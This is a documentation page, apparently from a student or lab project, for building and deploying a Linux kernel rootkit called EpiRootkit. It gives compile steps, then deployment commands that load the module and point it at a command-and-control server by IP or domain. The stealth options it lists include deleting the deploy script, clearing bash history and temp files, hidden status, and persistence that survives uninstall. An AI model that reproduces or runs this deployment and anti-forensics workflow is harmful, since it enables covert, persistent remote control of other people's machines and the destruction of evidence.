 ```yaml
---
title: "Build & Deployment"
description: "How to build and load EpiRootkit on Ubuntu 20.04"
icon: "code"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 502
---
```


# Build & Deployment

How to build and deploy EpiRootkit on Ubuntu 20.04 with kernel 5.4.0.

## Requirements

### System
- **OS**: Ubuntu 20.04 LTS
- **Kernel**: 5.4.0-* (check with `uname -r`)

### Dependencies
```bash
sudo apt update
sudo apt install -y build-essential linux-headers-$(uname -r)
```


## Build

```bash
cd rootkit
make clean && make
# ✓ Build successful: epirootkit.ko created
```

## Deployment

### Deployment Script

```bash
# Default usage (uses ./epirootkit.ko automatically)
sudo ./deploy_rootkit.sh

# Custom C2 server
sudo ./deploy_rootkit.sh ./epirootkit.ko address=192.168.200.11 port=4444

# Domain-based deployment
sudo ./deploy_rootkit.sh address=jules_chef_de_majeur.epirootkit.com

# Stealth deployment with self-cleanup
sudo ./deploy_rootkit.sh --self-delete

# Verbose deployment (show output)
sudo ./deploy_rootkit.sh --verbose
```

### Deployment Options
| Option | Description |
|--------|-------------|
| `--verbose` | Show detailed output during deployment |
| `--self-delete` | Remove script after successful deployment |
| `status` | Check current deployment status |
| `uninstall` | Remove module and cleanup |

### Advanced Usage
```bash
# Ultimate stealth deployment
sudo ./deploy_rootkit.sh address=c2.example.com port=443 --self-delete

# Deploy with verbose output then self-destruct
sudo ./deploy_rootkit.sh --verbose --self-delete

# Check deployment status
sudo ./deploy_rootkit.sh status
# Status: Active (hidden)
# Note: Persistence is managed internally by the rootkit

# Remove deployment
sudo ./deploy_rootkit.sh uninstall
# Module uninstalled
```

### Manual Loading (Alternative)
```bash
# Load with domain
sudo insmod epirootkit.ko address=jules-c2.example.com

# Load with IP
sudo insmod epirootkit.ko address=192.168.200.11 port=4444

# Load with defaults from config.h
sudo insmod epirootkit.ko
```

## Self-Cleanup Features

The deployment script includes advanced stealth capabilities:

### Trace Cleanup
- **Temp files**: Removes all `/tmp/jules_est_bo_*` files
- **History cleanup**: Removes deployment commands from bash history
- **Stealth backup**: Creates and removes backup module files

### Self-Destruction
```bash
# Deploy and vanish completely
sudo ./deploy_rootkit.sh --self-delete
# Deployment successful
# Self-deleting deployment script...
# (script file removed automatically)
```

## Management

### Check Status
```bash
sudo ./deploy_rootkit.sh status
# Status: Active (hidden)
# Note: Persistence is managed internally by the rootkit
```

### Default Behavior
- **Module file**: Uses `./epirootkit.ko` by default if no file specified
- **C2 address**: Uses `192.168.200.11:4444` by default
- **Stealth mode**: Silent operation by default (use `--verbose` for output)
- **Persistence**: Automatically handled by rootkit internal mechanisms

### Complete Removal
```bash
sudo ./deploy_rootkit.sh uninstall
# Module uninstalled
# Note: Rootkit persistence may remain - use rootkit's own removal commands
```

**Domain Support**: The rootkit supports both domain names and IP addresses. For DNS resolution details, see [DNS Resolution](./features/dns-resolution.md).